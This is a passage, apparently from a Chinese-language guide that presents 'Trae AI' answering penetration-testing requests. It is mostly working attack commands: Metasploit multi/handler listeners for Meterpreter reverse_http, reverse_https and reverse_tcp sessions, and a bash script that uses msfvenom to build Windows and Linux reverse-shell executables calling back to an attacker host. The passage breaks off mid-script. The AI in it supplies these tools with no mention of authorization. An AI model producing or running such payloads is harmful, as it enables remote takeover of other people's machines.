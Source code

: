 ## Payload 處理器設置

### 14. 多重處理器配置

**用戶提問：**
```
設置多個監聽器處理不同類型的 payload
```

**Trae AI 操作流程：**
```
# 設置 HTTP 處理器
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LHOST 192.168.1.100
set LPORT 80
set ExitOnSession false
exploit -j

# 設置 HTTPS 處理器
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443
set ExitOnSession false
exploit -j

# 設置 TCP 處理器
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
set ExitOnSession false
exploit -j
```

### 15. 自動化 Payload 生成

**用戶提問：**
```
創建腳本自動生成多種格式的 payload
```

**Trae AI 提供的腳本範例：**
```bash
#!/bin/bash
# 自動化 payload 生成腳本

LHOST="192.168.1.100"
LPORT="4444"
OUTPUT_DIR="/tmp/payloads"

mkdir -p $OUTPUT_DIR

# Windows payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o $OUTPUT_DIR/win_meterpreter.exe
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o $OUTPUT_DIR/win_shell.exe

# Linux payloads
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o $OUTPUT_DIR/linux_meterpreter
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o $OUTPUT_DIR/linux_shell

# Web payloads
```